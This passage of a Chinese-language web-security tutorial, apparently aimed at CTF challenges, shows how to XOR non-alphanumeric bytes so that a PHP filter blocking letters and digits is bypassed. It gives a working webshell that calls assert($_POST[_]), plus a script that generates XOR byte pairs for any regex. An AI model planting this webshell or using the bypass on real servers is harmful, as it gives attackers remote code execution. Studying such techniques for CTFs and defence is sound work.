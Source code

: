 基于此原理我们可以构造出无字母数字的 Webshell，下面是 PHITHON 师傅的一个 Payload：

```
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

看到代码中的下划线`_`、`__`、`___`是一个变量，因为 preg_match() 过滤了所有的字母，我们只能用下划线来作变量名。最后拼接起来 Payload 如下：

```
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']');$___=$$__;$_($___[_]);

// 密码为 "_"
```

测试效果如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icyRibA1ohv9ctAtHdmFBe7HiaaPS5fSeD6YMETOMJTGwEBT7vgcTEsGMEOJuQtRpsS7VFDWrDic9vOQ/640?wx_fmt=jpeg)

### 构造脚本

下面给出一个异或绕过的脚本：

```
<?php

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
for ($j=0; $j <256 ; $j++) { 

if($i<16){
$hex_i='0'.dechex($i);
}
else{
$hex_i=dechex($i);
}
if($j<16){
$hex_j='0'.dechex($j);
}
else{
$hex_j=dechex($j);
}
$preg = '/[a-z0-9]/i';    // 根据题目给的正则表达式修改即可
if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
echo "";
}

else{
$a='%'.$hex_i;
$b='%'.$hex_j;
$c=(urldecode($a)^urldecode($b));
if (ord($c)>=32&ord($c)<=126) {
$contents=$contents.$c." ".$a." ".$b."\n";
}
}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```
